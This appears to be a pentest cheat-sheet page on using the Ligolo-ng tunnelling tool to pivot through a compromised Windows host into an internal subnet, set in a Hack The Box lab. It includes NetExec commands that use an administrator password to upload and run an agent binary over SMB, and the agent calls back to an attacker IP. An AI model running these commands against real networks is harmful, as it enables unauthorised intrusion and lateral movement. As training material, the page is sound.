









---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Ligolo-ng

## Commands

### Basic Commands



```bash
sudo ip tuntap add user kali mode tun ligolo && sudo ip link set ligolo up
```



```bash
proxy -selfcert
```



```bash
proxy -autocert
```





```bash
./agent -connect 10.129.204.146:11601
```



```
sudo ip route add 172.16.10.0/24 dev ligolo
```



```bash
ligolo-ng » session
```



```bash
[Agent : user@nworkstation] » start_tunnel --tun ligolo
```



### Agent Transfer & Execution




```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth --put-file 'agent.exe' '\Windows\Temp\agent.exe'
```





```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth -x '\Windows\Temp\agent.exe -connect 10.10.15.223:11601 -ignore-cert'
```




## Usage


The below network configuration is from the [Vulnerability Scan Modules](https://academy.hackthebox.com/module/84/section/822) section of the Hack The Box's [Using CrackMapExec](https://academy.hackthebox.com/module/details/84) module.


We have compromised a Windows pivot host with 2 NICs (Figure 1). Our goal is to be able to interact with the `172.16.10.0/24` network, which at the moment we cannot (Figure 2).&#x20;

<figure><figcaption><p>Figure 1: The compromised pivot host has 2 NICs, one for the 172.16.10.0 and one for the 10.129.0.0 network.</p></figcaption></figure>

<figure><figcaption><p>Figure 2: Performing an unsuccessful live host discovery and ARP port scan on the target network. </p></figcaption></figure>

Create a tun interface on the Linux attack host (Figure 3).

<figure><figcaption><p>Figure 3: Setting up a tun intefrace.</p></figcaption></figure>

Start `proxy` on the Linux attack host (Figure 4). For pivot hosts with no internet connectivity a self-signed certificate needs to be generated (`-selfcert`). Otherwise, use `-autocert` to request a proper certificate.

> _On a Windows attack host, we need to have the appropriate_ [_`wintun.dll`_](https://www.wintun.net/) _on the same folder._

<figure><figcaption><p>Figure 4: Starting the proxy server on the attack host.</p></figcaption></figure>

Transfer and execute the `agent.exe` binary to the pivot host (Figure 5).


**Admin access** on the target host **is** **NOT required**!


<figure><figcaption><p>Figure 5: Transferring and executing the agent on the pivot host.</p></figcaption></figure>

A connection should be received on the attack host (Figure 6).

<figure><figcaption><p>Figure 6: Received a connection on thte attack host.</p></figcaption></figure>

Add an IP route for the target network (_ligogo device_) on the attack host (Figure 7).

<figure><figcaption><p>Figure 7: Adding an IP route for the target network.</p></figcaption></figure>

Choose the appropriate session and start the tunnel (Figure 8).

<figure><figcaption><p>Figure 8: Choosing the session and starting the tunnel.</p></figcaption></figure>

We can now interact from our attack host as if we were a part of the internal network (Figure 9).

<figure><figcaption><p>Figure 9: Performing a successful live host discovery and an ARP port scan on the target network.</p></figcaption></figure>

## Resources










